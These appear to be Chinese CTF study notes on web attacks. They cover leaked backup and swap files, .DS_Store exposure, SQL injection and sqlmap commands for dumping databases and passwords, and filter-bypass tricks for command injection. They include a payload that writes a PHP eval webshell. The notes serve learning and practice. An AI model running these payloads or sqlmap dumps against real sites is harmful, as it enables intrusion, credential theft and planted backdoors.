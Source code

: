 ### 网站备份
------
**常见的网站源码备份文件后缀**
- tar
- tar.gz
- zip
- rar
- bak

**常见的网站源码备份文件名**
- web
- website
- backup
- back
- www
- wwwroot
- temp











### **vim缓存:**
------

在使用vim时会创建临时缓存文件，关闭vim时缓存文件则会被删除，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容。

以 index.php 为例：第一次产生的交换文件名为 .index.php.swp。

再次意外退出后，将会产生名为 .index.php.swo 的交换文件。

第三次产生的交换文件则为 .index.php.swn。

注意：最前面有一个点，也就是说应该是`http://xxxxx.com/.index.php.swp`而不是`http://xxxxx.com/index.php.swp`











### **.DS_Store**
------

.DS_Store 是 Mac OS 保存文件夹的自定义属性的隐藏文件。如文件的图标位置或背景色，相当于Windows的desktop.ini。 其删除以后的副作用就是这些信息的失去。通过.DS_Store可以知道这个目录里面所有文件的清单。	

和别人交换文件（或你做的网页需要上传的时候）应该把 .DS_Store 文件删除比较妥当，因为里面包含了一些你不一定希望别人看见的信息。尤其是网站，通过 .DS_Store 可以知道这个目录里面所有文件的清单，很多时候这是一个不希望出现的问题。

**DS_Store文件泄漏**
.DS_Store是Mac下Finder用来保存如何展示 文件/文件夹 的数据文件，每个文件夹下对应一个。由于开发/设计人员在发布代码时未删除文件夹中隐藏的.DS_store，可能造成文件目录结构泄漏、源代码文件等敏感信息的泄露。











### **.htaccess**

------

htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能













### **SQL注入**

------

column_name : 列的名称

Information_schema.columns : 表示所有的列的信息

Information_schema : 表示所有信息，包括库、表、列

Information_schema.tables : 表示所有的表的信息

table_schema : 数据库的名称

table_name : 表的名称



关于注释：GET（`--+`），POST（`#`）

@@basedir  得到mysql路径









### **sqlmap基础命令**
------

查询sqlmap是否存在注入命令 sqlmap.py -u url/?id=1 

查询当前用户下的所有数据库 sqlmap.py -u url/?id=1 --dbs 

获取数据库的表名 sqlmap.py -u url/?id=1 -D (数据库名) --tables 

获取表中的字段名 sqlmap.py -u url/?id=1 -D (数据库名) -T (输入需要查询的表名) --columns 

获取字段的内容 sqlmap.py -u url/?id=1 -D (数据库名) -T (输入需要查询的表名) -C (表内的字段名) --dump 

查询数据库的所有用户 sqlmap.py -u url/?id=1 --users 

查询数据库的所有密码 sqlmap.py -u url/?id=1 --passwords 

查询数据库名称 sqlmap.py -u url/?id=1 --current-db











### sqlmap

------

—cookie  –level 2

—ua lever 3

sqlmap可以在请求中伪HTTP的Referer头，当--level参数大于等于3时，会尝试进行refer注入

–referer  level 5

有的时候扫不出注入点，也是需要提升 level 等级



脚本名： space2comment.py  作用：用注释/**/替换空格字符' '

 sqlmap 中的 tamper 脚本有很多，例如： equaltolike.py （作用是用like代替等号）、 apostrophemask.py （作用是用utf8代替引号）、 greatest.py （作用是绕过过滤'>' ,用GREATEST替换大于号）等。



绕过空格过滤的方法   /**/、()、%0a











### **MySQL**

------

delete，drop，truncate 都有删除表的作用，区别在于：

-  1、delete 和 truncate 仅仅删除表数据，drop 连表数据和表结构一起删除，打个比方，delete 是单杀，truncate 是团灭，drop 是把电脑摔了。
-  2、delete 是 DML 语句，操作完以后如果没有不想提交事务还可以回滚，truncate 和 drop 是 DDL 语句，操作完马上生效，不能回滚，打个比方，delete 是发微信说分手，后悔还可以撤回，truncate 和 drop 是直接扇耳光说滚，不能反悔。
-  3、执行的速度上，**drop>truncate>delete**，打个比方，drop 是神舟火箭，truncate 是和谐号动车，delete 是自行车。











### **RCE**

------

> 过滤 cat

**方法一**当cat被过滤后,可以使用一下命令进行读取文件的内容
(1)more:一页一页的显示的显示档案内容
(2)less:与more类似,但是比more更好的是,他可以[pg dn][pg up]翻页
(3)head:查看头几行
(4)tac:从最后一行开始显示,可以看出tac是cat的反向显示
(5)tail:查看尾几行
(6)nl:显示的时候,顺便输出行号
(7)od:以二进制的方式读取档案内容
(8)vi:一种编辑器，这个也可以查看
(9)vim:一种编辑器,这个也可以查看
(10)sort:可以查看
(11)uniq:可以查看



**方法二**
一句话木马
构造payload如下：

CTFHub  RCE –（命令注入，过滤cat）：  `127.0.0.1&echo "<?php @eval(\$_POST['a']);?>" >>shell.php`



**方法三**
反斜杠 ： 例如 ca\t fl\ag.php
连接符： 例如 ca’‘t fla‘’g.txt



> 过滤空格，其实就`;`就行呀

**当空格被过滤后,可以使用一下命令进行读取文件的内容**
`<` `<>` ` >`重定向符
`%09`(需要php环境)(tab)
`%20`(space)
`${IFS}`
`$IFS$9`
{cat,flag.php} //用逗号实现了空格功能
`%20`

PS：为什么我只有`<`可以